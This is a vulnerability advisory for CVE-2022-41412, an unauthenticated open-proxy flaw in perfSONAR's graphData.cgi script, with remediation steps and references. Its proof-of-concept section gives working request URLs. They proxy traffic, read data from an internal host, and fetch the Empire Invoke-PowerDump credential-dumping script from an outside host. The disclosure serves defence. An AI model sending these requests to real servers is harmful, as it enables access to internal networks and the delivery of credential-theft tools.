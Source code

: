 Vendor: perfSONAR<br>
Link: https://github.com/perfsonar/<br>
Affected Versions: v4.x <= v4.4.4<br>
Vulnerability Type: Open Proxy Relay<br>
Vulnerability Family: CGI Abuses<br>
Discovered by: Ryan Moore<br>
CVE: CVE-2022-41412

# Summary

perfSONAR bundles with it a graphData.cgi script, used to graph and visualize data.  There is a flaw in graphData.cgi allowing for unauthenticated users to proxy and relay HTTP/HTTPS traffic through the perfSONAR server.  The vulnerability can potentially be leveraged to exfiltrate or enumerate data from internal web servers.  

This vulnerability was patched in perfSONAR v4.4.5.

There is a whitelisting function that will mitigate, but is disabled by default.

# Proof of Concept 

## Examples

Here are three examples of this vulnerability in use.  To pass a regex match, the URL must include /esmond/perfsonar/archive/../../../ . 

### Example 1:

In this example, www.google.com is proxied through perfSONAR server.<br> 
https://192.168.68.145/perfsonar-graphs/cgi-bin/graphData.cgi?action=ma_data&url=https://www.google.com/esmond/perfsonar/archive/../../../&src=8.8.8.8&dest=8.8.4.4 

![This is an image](https://github.com/renmizo/CVE-2022-41412/blob/main/ss1.jpg)

### Example 2:

In this example, sample data is exfiltrated from another adjacent internal web host, running an arbitrary port 4444.<br>
https://192.168.68.145/perfsonar-graphs/cgi-bin/graphData.cgi?action=ma_data&url=http://192.168.68.113:4444/esmond/perfsonar/archive/../../../&src=8.8.8.8&dest=8.8.4.4

![This is an image](https://github.com/renmizo/CVE-2022-41412/blob/main/ss2.jpg)

### Example 3:

In this example, we are able to download a malicious Powershell script through the perfSONAR server.<br>
https://192.168.68.145/perfsonar-graphs/cgi-bin/graphData.cgi?action=ma_data&url=https://raw.githubusercontent.com/esmond/perfsonar/archive/../../../EmpireProject/Empire/master/data/module_source/credentials/Invoke-PowerDump.ps1&src=8.8.8.8&dest=8.8.4.4

![This is an image](https://github.com/renmizo/CVE-2022-41412/blob/main/ss3.jpg)

# Remediation

Enable whitelisting in perfSONAR.<br>
Update perfSONAR to 4.4.5 or newer.

# References

* https://lists.internet2.edu/sympa/arc/perfsonar-user/2022-09/msg00030.html
* https://github.com/perfsonar/graphs/commit/463e1d9dc30782d9b1c002143551ec78b74e03bb
* https://www.perfsonar.net/releasenotes-2022-09-20-4-4-5.html
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-41412


